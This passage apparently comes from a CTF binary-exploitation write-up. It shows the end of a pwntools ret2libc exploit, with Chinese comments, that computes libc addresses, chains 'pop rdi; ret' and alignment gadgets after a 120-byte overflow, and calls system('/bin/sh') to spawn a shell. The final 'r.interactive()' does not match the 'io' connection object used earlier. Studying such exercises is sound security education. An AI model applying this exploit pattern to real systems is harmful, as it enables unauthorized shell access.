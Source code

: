 ```python
    bin_sh_addr = libc_base + next(libc.search(b"/bin/sh"))

    print(f"[+] libc基地址: {hex(libc_base)}")
    print(f"[+] system地址: {hex(system_addr)}")
    print(f"[+] /bin/sh地址: {hex(bin_sh_addr)}")

    # 关键gadget定义
    rdi_gadget = 0x401176  # pop rdi; ret
    ret_gadget = 0x40101A  # ret (用于栈对齐)

    # 构造getshell payload
    buffer_size = 120
    shell_payload = (
        b"M" * buffer_size
        + p64(ret_gadget)    # 栈对齐（64位程序调用约定要求）
        + p64(rdi_gadget)    # 控制rdi寄存器
        + p64(bin_sh_addr)   # 传入/bin/sh作为参数
        + p64(system_addr)   # 调用system函数
    )

    # 发送getshell payload
    io.sendlineafter(b"What's your name?\n", shell_payload)
    print("[+] 已发送getshell payload，等待shell...")


if __name__ == "__main__":
    main()

# 交互获取shell
r.interactive()
```

![](./images/image14.webp)

---